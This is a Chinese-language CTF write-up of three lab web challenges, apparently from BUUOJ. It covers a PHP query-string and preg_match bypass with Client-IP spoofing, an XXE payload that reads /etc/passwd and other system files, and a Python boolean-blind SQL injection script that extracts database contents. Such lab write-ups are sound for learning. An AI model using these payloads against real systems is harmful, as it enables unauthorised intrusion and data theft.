

# 0x01.[MRCTF2020]套娃

源代码中：

```php
//1st
$query = $_SERVER['QUERY_STRING'];
 //计算第二个参数在字符串中出现的次数：
 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

第一个if考察`$_SERVER['QUERY_STRING']`获取的是未经url解码的查询字符串，因此将`_`url编码后可绕过。（url编码大小写不敏感）

或者：PHP会将传参中的空格( )、小数点(.)自动替换成下划线

第二个if考察`preg_match()`只能匹配单行字符串，会将换行符后的字符串忽略。

payload:`?b%5Fu%5Fp%5Ft=23333%0a`

返回一个文件：`secrettw.php`

访问后是jsfuck，执行之后提示post发Merak

之后返回部分代码：

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
	echo "Your REQUEST is:".change($_GET['file']);
	echo file_get_contents(change($_GET['file'])); 
}
?>  
```

ip访问：`client-ip:127.0.0.1`

file_get_contents函数使用php://input协议绕过，注意input是post传。

change函数的作用就是base64加密file参数内容，转换ascii并+$i*2

逆着写一遍：

```php
<?php
function unchange($v){ 
    $re = '';
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}
$real_flag = unchange('flag.php');
echo base64_encode($real_flag);
?>
    //ZmpdYSZmXGI=
```


# 0x02.[NCTF2019]True XML cookbook

看题目应该是XXE，发包之后确实应该是，源码处也能看出来。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [<!ENTITY a SYSTEM "file:///flag">]>
<user><username>&a;</username><password>testtest</password></user>
```

直接读flag读不出来，应该是没有这个文件，挨个读一下下面的：

-   /etc/hosts 储存域名解析的缓存
-   /etc/passwd 用户密码
-   /proc/net/arp 每个网络接口的arp表中dev包




。。。和wp不一样？

应该就是这么做了，arp读ip地址，之后http去扫那个网段就行了，，

# 0x03.[WUSTCTF2020]颜值成绩查询

布尔盲注

抄个exp：

```python
import requests
import time
url = 'http://2a5366fc-3743-4cf1-84eb-3bdd5cea88b0.node4.buuoj.cn:81/'

database = ""

# 库名为ctf
payload1 = "?stunum=1^(ascii(substr((select(database())),{},1))>{})^1"
# 表名为flag,score
payload2 = "?stunum=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctf')),{},1))>{})^1"
# 列名为flag,value
payload3 = "?stunum=1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{},1))>{})^1"
payload4 = "?stunum=1^(ascii(substr((select(group_concat(value))from(ctf.flag)),{},1))>{})^1"
for i in range(1, 10000):
    time.sleep(1)
    low = 32
    high = 128
    mid = (low + high) // 2
    while(low < high):
        # payload = payload1.format(i,mid)  #查库名
        # payload = payload2.format(i,mid)  #查表名
        # payload = payload3.format(i,mid)  #查列名
        payload = payload4.format(i, mid)  # 查flag

        new_url = url + payload
        r = requests.get(new_url)
        # print(new_url)
        if "Hi admin, your score is: 100" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    database += chr(mid)
    print(database)

```


